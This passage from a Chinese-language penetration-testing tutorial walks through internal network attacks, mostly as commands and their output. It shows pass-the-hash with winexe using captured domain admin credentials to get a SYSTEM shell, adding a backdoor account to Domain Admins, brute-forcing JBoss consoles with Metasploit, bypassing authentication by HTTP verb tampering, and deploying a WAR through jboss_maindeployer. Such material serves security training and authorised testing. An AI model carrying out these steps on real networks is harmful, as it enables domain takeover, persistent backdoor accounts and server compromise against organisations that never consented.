 这里的 LM, NTLMv1, or NTLMv2 哈希,能够用 GPU 或者彩虹表暴力破解.如果在 responder 会话过程中,抓到一个域管理员帐号,能够直接使用 winexe 运行 cmd.exe 命令

```
~/work/nmap# ~/SpiderLabs/winexe-PTH -U BEACONHILLSHIGH\\smccall%allison --uninstall --system //192.168.8.6 cmd.exe 
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\WINDOWS\system32>net user twadmin $piD3rsRul3! /add /domain
net user twadmin $piD3rsRul3! /add /domain
The request will be processed at a domain controller for domain beaconhillshigh.edu.
The command completed successfully.
C:\WINDOWS\system32> net group "Domain Admins" twadmin /add /domain
net group "Domain Admins" twadmin /add /domain
The request will be processed at a domain controller for domain beaconhillshigh.edu.
The command completed successfully. 
```

## 2.利用 jboss 漏洞

* * *

可以前期先用 nmap 扫描下端口,识别出常见的 JAVA 应用服务器,后期配合 Metasploit 的 auxiliary 模块来利用.比如 jboss 漏洞.最常见的就是弱口令了吧,同理的,也可以寻找 webloigc,websphere,tomcat 等这些基于 JAVA 的应用服务器,还有最近国内政府部门部署比较多的 Apusic,不过需要注意 war 包格式,进后台,直接部署 WAR 就行了.jboss 的除了弱口令,还有个后台绕过,和流传很久的 1337 那个.用例说下如何用 metasploit 暴力破解 jboss 后台,以及部署 war 包.

```
msfcli auxiliary/scanner/http/dir_scanner THREADS=25 RHOSTS=file:./8080 DICTIONARY=./http.scan.list RPORT=8080 E >> http.jboss.8080
~/work/nmap# cat http.jboss.8080     <-- 这个是开 25 线程字典跑 8080 端口 jboss 后台的
[*] Initializing modules... 
THREADS => 25 
RHOSTS => file:./8080 
DICTIONARY => ./http.scan.list 
RPORT => 8080 
[*] Detecting error code 
[*] Detecting error code 
[*] Detecting error code 
[*] Detecting error code 
[*] Using code '404' as not found for 192.168.5.18 
[*] Using code '404' as not found for 192.168.5.21 
[*] Using code '404' as not found for 192.168.5.20 
[*] Found http://192.168.5.20:8080/web-console/ 401 (192.168.5.20) 
[*] http://192.168.5.20:8080/web-console/ requires authentication: Basic realm="JBoss JMX Console" 
[*] Found http://192.168.5.20:8080/web-console/ 404 (192.168.5.20) 
[*] Found http://192.168.5.20:8080/jmx-console/ 401 (192.168.5.20) 
[*] http://192.168.5.20:8080/jmx-console/ requires authentication: Basic realm="JBoss JMX Console" 
[*] Found http://192.168.5.21:8080/jmx-console/ 404 (192.168.5.21) 
[*] Scanned 4 of 4 hosts (100% complete) 
[*] Auxiliary module execution completed

Output from use auxiliary/scanner/http/jboss_vulnscan:
[*] 192.168.5.20:8080 /jmx-console/HtmlAdaptor requires authentication (401): Basic realm="JBoss JMX Console" 
[*] 192.168.5.20:8080 Check for verb tampering (HEAD) 
[+] 192.168.5.20:8080 Got authentication bypass via HTTP verb tampering 
[+] 192.168.5.20:8080 Authenticated using admin:admin 
[+] 192.168.5.20:8080 /status does not require authentication (200) 
[+] 192.168.5.20:8080 /web-console/ServerInfo.jsp does not require authentication (200) 
[+] 192.168.5.20:8080 /web-console/Invoker does not require authentication (200) 
[+] 192.168.5.20:8080 /invoker/JMXInvokerServlet does not require authentication (200)

Output from use exploit/multi/http/jboss_maindeployer:          <--部署 war 包
msf exploit(jboss_maindeployer) > exploit

```